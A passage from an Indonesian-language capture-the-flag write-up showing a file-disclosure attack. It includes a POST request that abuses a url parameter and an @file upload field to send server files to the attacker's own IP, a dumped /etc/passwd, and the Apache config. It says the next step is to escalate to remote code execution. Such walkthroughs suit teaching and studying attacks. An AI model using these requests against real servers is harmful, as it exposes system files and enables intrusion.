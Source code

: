 Pada IP kita, kita akan mendapatkan `/etc/passwd` dari server!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
orange:x:1001:1001:,,,:/home/orange:/bin/bash
```

Kita juga dapat melihat bahwa konfigurasi Apache menggunakan `000-default.conf` dan direktori web berada di `/var/www/html`.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/apache2/sites-enabled/000-default.conf
```

```
<VirtualHost *:80>
	...

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	...
</VirtualHost>
```

Percobaan untuk mendapatkan flag dari Local File Disclosure tidak berhasil. Oleh karena itu, kita harus meningkatkannya menjadi Remote Code Execution.
